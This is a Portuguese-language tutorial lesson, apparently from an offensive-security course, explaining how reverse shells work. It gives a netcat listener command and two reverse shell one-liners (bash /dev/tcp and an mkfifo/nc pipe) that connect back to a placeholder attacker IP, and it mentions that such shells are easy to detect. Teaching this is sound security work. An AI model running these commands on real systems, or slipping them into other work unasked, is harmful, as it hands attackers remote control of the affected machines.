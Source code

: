 # Reverse shell
Shell mais comum e mais simples de ser feito, é um shell que se conecta ao atacante, que está ouvindo em uma porta específica. Depois de descobrir a brecha no sistema alvo, podemos usar ferramentas como netcat, socat ou até mesmo python para criar um shell reverso. Depois disso executamos o shell no sistema falho e o atacante se conecta a nós.

## Ouvinte netcat
```shell
$ nc -lvnp 4444
```
Nesse comando:
- `-l` Modo de escuta, aguardando conexões
- `-v` Modo verbose, mostra informações sobre a conexão, como conexão bem-sucedida
- `-n` Não resolve DNS
- `-p` Porta que vai ser aberta

Agora executamos o shell reverso no sistema alvo:

**Nota: Precisamos saber o IP do sistema que vai receber a conexão, ou seja o nosso**
`$ ip a`

O comando para executar o shell varia de sistema e softwares instalados no alvo, a [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) tem uma lista de payloads para diferentes sistemas e softwares.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Depois de executar o shell no alvo, o atacante vai receber a conexão e terá acesso ao sistema alvo.

O reverse shell é útil quando precisamos de velocidade e simplicidade, mas não é o mais seguro, pois a conexão é feita diretamente ao atacante, o que pode ser facilmente detectado por um firewall ou IDS. Quando o comando do shell é interrompido, a conexão é perdida.

[próxima aula](shell2_bind.md)